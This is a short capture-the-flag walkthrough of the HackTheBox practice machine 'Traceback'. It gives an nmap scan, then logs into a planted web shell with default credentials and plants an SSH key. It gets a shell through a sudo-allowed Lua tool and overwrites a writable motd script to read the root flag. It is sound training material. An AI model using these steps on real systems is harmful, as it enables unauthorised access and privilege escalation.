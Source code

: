 ```yaml
---
attachments: [traceback-port80.png]
title: HackTheBox - Traceback Notes
created: '2020-05-21T10:59:22.213Z'
modified: '2020-05-21T11:20:08.836Z'
---
```


# HackTheBox - Traceback Notes

Machine IP: `10.10.10.181` 


## Nmap Scan

```
# Nmap 7.80 scan initiated Thu May 21 13:05:58 2020 as: nmap -A -p22,80 -oN initial.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Android 4.2.2 (Linux 3.4) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   206.01 ms 10.10.14.1
2   206.29 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 21 13:06:22 2020 -- 1 IP address (1 host up) scanned in 25.55 seconds

```

## Initial Foothold

Opening http://10.10.10.181 (port 80) gives us a defaced page.

![Image](traceback-port80.png)

The HTML comment says `Some of the best web shells that you might need ;)`

Google the HTML comment and first result will be of a repository containing many web shells, appending all PHP file names gives us result that smevk.php has been used to deface, to login to the webshell (smevk.php),credentials `admin:admin` will work.

There are two users.
1. webadmin
2. sysadmin

Add your SSH key to /home/webadmin/.ssh/ as authorized_keys and login via SSH.

## Horizontal PrivEsc

Use `sudo -l` to check sudo permissions.

```
User webadmin may run the following commands on traceback: 
(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

/home/webadmin/note.txt says

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The `luvit` file in sysadmin's home directory is a lua script.

Run it and execute following command to get shell of sysadmin

`os.execute("/bin/bash -i")`

## PrivEsc to Root

Using LinPeas tells us that /etc/update-motd.d is writable by sysadmin.

Run `echo "cat /root/root.txt" > /etc/update-motd.d/00-header`

Exit out of the shell and SSH again.

The startup message will have the root flag as 00-header is responsible for running those commands when a new login appears.
